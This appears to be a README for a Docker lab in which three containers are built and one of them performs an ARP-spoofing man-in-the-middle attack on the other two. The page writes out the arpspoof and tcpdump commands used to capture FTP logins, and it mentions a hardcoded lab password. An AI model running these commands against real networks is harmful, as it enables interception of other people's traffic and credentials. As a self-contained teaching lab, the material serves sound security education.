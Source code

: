 # Setting Up Environmental Variables 


``` export image_name=your_image_name  ```

# Building Customized Image of Container 


```docker build -t $image_name -f ubuntu-dockerfile . ```

``` docker build -t $image_name -f ubuntu-dockerfile  . ```




# Running Containers With  Docker Compose




``` docker-compose  -f docker-compose.yaml up ```




# To Get IP Address of Container 


docker ps 

docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'  {_container1_name_}

docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}'  {_container2_name_}


or You can run the script

``` bash ipaddr-mac.sh ```





# SSH Into Each Container 

``` ssh buddy@ip_of_container_1 ```                                                                                  

``` ssh budy@ip_of_container_2  ```                                                                                     

``` ssh buddy@ip_of_container_3 ```

#  Inside Each Container 

``` sudo  apt update && bash script.sh ``` 

pass :- 123 hardcoded in the image 

# Inside Container 1 

``` arpspoof -i eth0 -t container_2_ip_addr  container_3_ip_addr ```

``` arpspoof -i eth0 -t container_3_ip_addr  container_2_ip_addr ```

``` tcpdump -i eth0 -w data_capture.pcap  port 21  ```


# Inside   Container 2 & Container  3 

Make Sure FTP is installed and running in Container 2 and 3 . You can install the package "VSFTPD" and run the service .

From Container  2 we  will ftp into Container 3

``` ftp container_3_ip_addr ```

Once you  have created  a  Session Stop the  tcpdump on First Container . Open it with Wireshark  and you can analyze the packets 

# Tutorial 

Refer to the YTube Video for demonstration :- 


YTube :- UnixPanda


https://youtu.be/ipPH79Ce-wI?si=myHS0x7X9BHNIsFT


